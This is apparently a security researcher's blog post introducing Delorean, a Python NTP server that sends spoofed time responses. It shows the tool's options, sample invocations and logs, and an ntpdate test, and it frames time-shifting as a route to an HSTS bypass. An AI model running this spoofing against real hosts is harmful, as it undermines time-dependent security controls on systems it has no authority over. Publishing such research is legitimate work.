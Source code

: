 Delorean is an NTP server written in python, open source and available from GitHub (contributions are welcomed). I borrowed a few lines of code from kimifly's ntpserver and, of course, all the credits to him have been included.

What makes Delorean different and useful for us is that we can configure its flags in order to make it work in a different way than a regular NTP server. Basically, we can configure it in order to send fake responses, similar to the Metasploit's fakedns module.

```$ ./delorean.py -h
Usage: delorean.py [options]

Options:
-h, --help show this help message and exit
-i INTERFACE, --interface=INTERFACE Listening interface
-p PORT, --port=PORT Listening port
-n, --nobanner Not show Delorean banner
-s STEP, --force-step=STEP Force the time step: 3m (minutes), 4d (days), 1M (month)
-d DATE, --force-date=DATE Force the date: YYYY-MM-DD hh:mm[:ss]
-x, --random-date Use random date each time```

We have the typical interface (-i) and port (-p) flags, that help us to bind the service exactly where we want. The -n flag only hides the super-cool Delorean banner :)

```                                    _._                                          
                               _.-="_-         _                                 
                          _.-="   _-          | ||"""""""---._______     __..    
              ___.===""""-.______-,,,,,,,,,,,,`-''----" """""       """""  __'   
       __.--""     __        ,'                   o \           __        [__|   
  __-""=======.--""  ""--.=================================.--""  ""--.=======:  
 ]       [w] : /        \ : |========================|    : /        \ :  [w] :  
 V___________:|          |: |========================|    :|          |:   _-"   
  V__________: \        / :_|=======================/_____: \        / :__-"     
  -----------'  ""____""  `-------------------------------'  ""____"" ``` 

We can use Delorean in several modes, but we are going to focus in the most useful ones. There are some other attacks that weren't really interesting after developing them, but they are still in the code. Perhaps I will remove them in the future, sine they require scapy and some dependencies.

Since it's too soon yet to talk about how OS synchronize, we will test how Delorean works using the command line tool "ntpdate":

```$ ntpdate -q 192.168.1.2
server 192.168.1.2, stratum 2, offset 97372804.086845, delay 0.02699
20 Oct 06:05:45 ntpdate[881]: step time server 192.168.1.2 offset 97372804.086845 sec```

By default (no flags), Delorean responses a date that matches the same week and month day than the current date, but at least 1000 days in the future. This was useful for the HSTS bypass as we will see in upcoming posts.

```# ./delorean.py -n 
[19:44:42] Sent to 192.168.10.113:123 - Going to the future! 2018-08-31 19:44 
[19:45:18] Sent to 192.168.10.113:123 - Going to the future! 2018-08-31 19:45```

We can set a relative jump from the current date using the step flag (-s). Relative jumps can be defined as 10d (ten days in the future), -2y (two years in the past), etc:

```# ./delorean.py -s 10d -n 
[19:46:09] Sent to 192.168.10.113:123 - Going to the future! 2015-08-10 19:46 
[19:47:19] Sent to 192.168.10.113:123 - Going to the future! 2015-08-10 19:47```

We can also set a specific date, and Delorean would answer always the same date:

```# ./delorean.py -d ‘2020-08-01 21:15’ -n 
[19:49:50] Sent to 127.0.0.1:48473 - Going to the future! 2020-08-01 21:15 
[19:50:10] Sent to 127.0.0.1:52406 - Going to the future! 2020-08-01 21:15```

There are a number of attacks that you can run using Delorean. I shown some of them in DEF CON 23: https://www.youtube.com/watch?v=hkw9tFnJk8k
